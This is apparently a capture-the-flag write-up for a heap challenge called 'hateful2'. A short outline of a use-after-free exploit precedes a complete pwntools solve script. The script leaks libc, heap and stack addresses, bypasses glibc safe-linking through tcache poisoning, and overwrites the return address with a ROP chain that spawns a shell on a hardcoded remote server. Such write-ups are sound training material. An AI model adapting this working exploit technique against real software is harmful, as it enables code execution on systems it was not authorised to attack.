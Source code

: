 # hateful2

## Exploit

We have a use-after-free vulnerability.

- First we get a libc leap, using unsorted bin attack
- We also get heap leak to bypass safe-linking
- After that we leak the arguments in `environ` using the libc address, to get stack leak
- Now we can overwrite rip to our rop chain

the [solve script](solve.py)

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./hateful2_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("52.59.124.14",5022)

    return r

def malloc(idx,sze,pl):
    r.sendlineafter(b'>>',b'1')
    r.sendlineafter(b':',str(idx).encode())
    r.sendlineafter(b':',str(sze).encode())
    r.recvuntil(b'>>')
    r.send(pl)
def edit(idx,pl):
    r.sendlineafter(b'>>',b'2')
    r.sendlineafter(b':',str(idx).encode())
    r.recvuntil(b'>>')
    r.send(pl)
def view(idx):
    r.sendlineafter(b'>>',b'3')
    r.sendlineafter(b':',str(idx).encode())
    r.recvuntil(b':')
    return r.recvline().strip()
def free(idx):
    r.sendlineafter(b'>>',b'4')
    r.sendlineafter(b':',str(idx).encode())

r = conn()
for i in range(9):
    malloc(i,0x98,b'a')
for i in range(9):
    free(8-i)
libc.address = unpack(view(0),'all') - 0x1d2cc0
heap_base = unpack(view(8),'all')<<12
print("heap base:",(hex(heap_base)))
print("libc base:",hex(libc.address))
print("libc argv:",hex(libc.sym['environ']))
env = libc.sym['environ']
malloc(1,0x38,b'a')
free(1)
edit(1,b'a'*16)
free(1)
tw = (env & ~(0xf)) ^((heap_base)>>12)
edit(1,p64(tw)+b'a')
malloc(1,0x38,p8(tw & 0xff))
malloc(2,0x38,p8(env & 0xff))

sl = (unpack(view(2),'all')<<8)-0x118
print(f"rip : {hex(sl)}")
pop_rdi = libc.address + 0x277e5
print(f"pop rdi: {hex(pop_rdi)}")
binsh = next(libc.search(b'/bin/sh'))
print(f"binsh address : {hex(binsh)}")
ret = libc.address+0x26e99
#write to rip
malloc(4,0x38,b'a')
free(4)
edit(4,b'a'*16)
free(4)
tw = (sl & ~(0xf))^((heap_base)>>12)
edit(4,p64(tw))
malloc(4,0x38,p8(tw & 0xff))
malloc(4,0x38,b'a'*8+p64(ret) + p64(pop_rdi)+p64(binsh)+p64(libc.sym.system))
r.sendlineafter(b'>>',b'5')
r.interactive()
```


